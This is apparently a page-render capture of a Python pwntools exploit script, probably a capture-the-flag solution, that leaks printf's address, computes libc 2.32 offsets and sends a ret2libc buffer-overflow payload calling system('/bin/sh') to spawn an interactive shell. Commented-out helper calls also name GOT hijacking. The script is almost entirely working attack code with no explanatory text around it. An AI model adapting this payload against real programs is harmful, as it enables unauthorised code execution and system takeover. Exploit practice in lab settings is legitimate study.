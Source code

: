 ```python
    # p = remote(host, port, timeout=None)
    p = process(Filename)
    p = process(Filename)
    p.sendline(Name)
    p.sendline(Password)
    [print(p.recvline()) for i in range(0, 4)]

    # Libc 2.32
    # Will be different for other libc versions
    offsetForSh = 0x195108
    offsetForExit = 0x37e50
    offsetForSystem = 0x456e0
    offsetForPrintf = 0x550a0

    printfAddr = p.recvline().decode()
    print(printfAddr)
    printfAddr = printfAddr.strip().split(':')[-1]
    addressOfLibc = int(printfAddr, 16) - offsetForPrintf
    addressOfSh = addressOfLibc + offsetForSh
    addressOfExit = addressOfLibc + offsetForExit
    addressOfSystem = addressOfLibc + offsetForSystem

    payload = ("250382\x00" + 'A' * 21).encode() + \
        f(addressOfSystem) + f(addressOfExit) + f(addressOfSh) + f(0)
    p.sendline(payload)
    p.interactive()


#
# gotHijackAndPassword()
# gotHijack()
# get_printf_and_exit_address()
main()
```
